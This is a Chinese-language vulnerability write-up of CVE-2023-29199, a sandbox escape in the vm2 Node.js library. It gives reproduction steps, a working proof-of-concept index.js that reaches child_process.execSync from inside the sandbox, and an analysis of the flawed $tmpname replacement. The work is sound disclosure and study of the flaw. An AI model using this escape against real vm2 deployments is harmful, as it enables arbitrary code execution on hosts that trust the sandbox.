 ```yaml
---
title: CVE-2023-29199
---
```


# CVE-2023-29199


<Metadata author="swwind" time="2023-6-12" />

vm2 是捷克 Patrik Simek 个人开发者的一个 Node.js 的高级虚拟机/沙盒。以使用列入白名单的 Node 内置模块运行不受信任的代码。

vm2 3.9.15 版本及之前版本存在安全漏洞。攻击者利用该漏洞绕过 `handleException()` 并泄漏未清理的主机异常，在其中主机环境中执行任意代码。

## 漏洞详情信息表

|  漏洞名称  |      vm2 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202304-1191    |
|  CVE 编号  | [CVE-2023-29199][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          超危          |
|  漏洞类型  |      沙箱逃逸漏洞      |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vm2 v3.9.15

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-29199` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vm2@3.9.15` 安装带有缺陷的 vm2 版本。

## 漏洞测试或验证详细步骤

### 编写代码

假设我们将 vm2 当作沙箱来运行任意代码，在披露中我们可以使用如下方式来绕过沙箱而获得整个程序的执行权限。

编辑 `index.js` 文件如下。

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule
        .require('child_process')
        .execSync('echo "flag is here" > flag');
}
`;

console.log(vm.run(code));
```

### 测试漏洞

使用 `node index.js` 执行上面的代码之后，就可以发现当前目录下多出现了一个 `flag` 文件，内容正好是 `flag is here`。

![](/assets/exploits/figure4/fig1.png)

从上可以看出，我们成功绕过了沙箱的各种限制，拿取到了 shell 的执行权限。

### 漏洞分析

我们尝试理解 vm2 对于 catch 块的转译工作。

首先 vm2 是对于 node 自带模块 vm 的一层包装，旨在提供安全的沙箱环境运行代码。

在代码运行之前，vm2 会利用 acorn 对代码进行适当的解析，通过注入代码等方式代理 nodejs 中的一些危险操作，例如 eval 和 Function 对象等。

但是其中的代码含有一些缺陷。例如在解析 catch 块的时候，vm2 使用了一些预占用变量 `$tmpname` 作为替代，之后再使用 `.replace(/\$tmpname/g, tmpname)` 进行统一的替换。

![](/assets/exploits/figure4/fig2.png)

L137 代码的原意是使得 catch 捕获之后的变量经过 `handleException` 处理之后保证不暴露出 nodejs 的原生函数。但是碍于 L121 中的 `$tmpname` 原因，需要在最后添加含有容易被注入的全局替换语句。

![](/assets/exploits/figure4/fig3.png)

L189 中的 replace 函数会将所有 `$tmpname` 都替换为 `tmpname` 变量（默认值为 `VM2_INTERNAL_TMPNAME`），因此这句注入的语句会被最终展开成如下代码。

```c
aVM2_INTERNAL_TMPNAME=VM2_INTERNAL_STATE_DO_NOT_USE_OR_PROGRAM_WILL_FAIL.handleException(aVM2_INTERNAL_TMPNAME);
```

从而有效避免了捕获的 `a$tmpname` 变量被替换，从而在下文中可以得到一个原生的 `InternalError` 对象。

![](/assets/exploits/figure4/fig4.png)

通过对这个原生的 `InternalError` 对象获取 `.constructor` 可以获取到 `function InternalError()`，再次通过 `.constructor` 就可以获取到 `function Function()` 对象，通过该构造函数传入 `"return process"` 就可以获取到 nodejs 的 `process` 对象，从而实现接下来的任意代码执行工作。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-29199
